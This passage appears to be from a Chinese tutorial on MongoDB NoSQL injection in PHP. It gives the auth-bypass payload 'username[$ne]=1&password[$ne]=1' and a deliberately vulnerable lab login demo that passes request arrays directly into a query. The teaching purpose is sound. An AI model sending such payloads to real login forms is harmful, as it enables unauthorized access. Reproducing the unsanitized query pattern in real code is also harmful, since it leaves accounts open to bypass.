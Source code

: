 -   可以考虑这么一个场景，开发过程中登录`HTTP`请求大体会长这个样子

```plain
username=weiyi&password=123456
```

-   那么我们`php`后台代码大概的样子为

```plain
db->users->find(array('username' => $_POST['username'], 'password' => $_POST['password']));

# 转换成数据库查询语句
db.users.find({"username":"weiyi", "password":"123456"});
```

-   `php`特定的语法特点是可以允许攻击者传入如下恶意请求

```plain
username[$ne]=1&password[$ne]=1

# 转换成 php 数组
array('username' => array('$ne' => '1'), 'password' => array('$ne' => '1'));

# 转换成 mongo 查询语句
db.users.find({"username":{"$ne":1}, "password":{"$ne":1}});
```

-   这样我们就可以绕过登录限制，达到未授权访问后端

语义为 `username`不等于 1，并且`password`不等于 1 的用户，转换成我们熟悉的`SQL`语句如下

```plain
select * from users where username <> 1 and password <> 1
```

-   靶场`demo`

```plain
# 核心代码
$dbUsername = null;
$dbPassword = null;

$data = array(
    'username' =>  $_REQUEST['username'],
    'password' =>  $_REQUEST['password']

); 
$cursor = $collection->find($data);
$count = $cursor->count();
$doc_failed = new DOMDocument();
$doc_failed->loadHTMLFile("failed.html");
$doc_succeed = new DOMDocument();
$doc_succeed->loadHTMLFile("succeed.html");
```

-   登录界面

